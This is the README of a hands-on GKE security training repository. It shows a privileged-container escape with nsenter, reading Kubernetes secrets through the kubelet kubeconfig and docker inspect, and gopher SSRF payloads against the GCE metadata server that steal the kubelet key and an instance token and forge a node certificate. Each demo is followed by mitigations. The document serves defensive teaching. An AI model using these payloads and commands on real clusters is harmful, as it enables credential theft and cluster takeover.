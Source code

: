 # training-gke-security
This repository is for demo of training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud beta container clusters create gke-security-testing --zone us-central1-a --machine-type n1-standard-1 --num-nodes 3 --enable-pod-security-policy --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: PodSecurityPolicy/RBAC
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2)
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
- RBAC
- PodSecurityPolicy

```
alias kubectl-user='kubectl --as=system:serviceaccount:default:unprivileged-user'
```
```
kubectl delete pod root-container
```
```
kubectl delete rolebinding default-psp
```

##### Apply PodSecurityPolicy and RBAC
```
kubectl apply -f manifest/psp/ -R
```

##### Try to deploy privileged pod
```
kubectl-user apply -f manifest/root/pod.yaml
```
##### Try to use kubectl to another namaspaces
```
kubectl-user get pod -n kube-system
```

## Demo 2: Workload Identity
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080 2>&1 >/dev/null &
```

#### Open Web Preview
![web-preview](img/web-preview.png)
![web-page](img/web-page.png)

#### Input url (for testing)
```
https://www.example.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

![web-metadata](img/web-metadata.png)

#### Save the metadata to metadata-script/metadata.txt
```
cd metadata-script
```

```
curl -X POST 'http://localhost:8080/get_contents' --data 'url=gopher%3A%2F%2F169.254.169.254%3A80%2F_GET+%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fkube-env%3Falt%3Djson+HTTP%2F1.1%250d%250aMetadata-Flavor%3A+Google%250d%250aConnection%3A+Close%250d%250a%250d%250a' -o metadata.txt
```

#### Move current kubeconfig file
```
mv ~/.kube/config ~/.kube/config.tmp
```
```
kubectl config get-contexts
```

#### Get node certificate
- Extract necessary data from metadata
```bash
bash extract.sh
```
```
ls -l metadata
```

- Send CSR and Get node certificate
```
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
- Set env vars
```
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)" && echo $KUBE_OPT
```

- Get secretName
```
kubectl $KUBE_OPT describe pod | grep secret
```

- Get secret
```
kubectl $KUBE_OPT get secret dummy-secret -o yaml
```

#### Move back kubeconfig file
```
mv ~/.kube/config.tmp ~/.kube/config
```
```
kubectl config get-contexts
```

#### (Reference) Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
- Enable workload identity (Need much time)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
gcloud beta container node-pools update default-pool --cluster=gke-security-testing --workload-metadata-from-node=GKE_METADATA_SERVER --zone us-central1-a
```

![web-workload-identity-enabled.png](img/web-workload-identity-enabled.png)

## (After this training) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
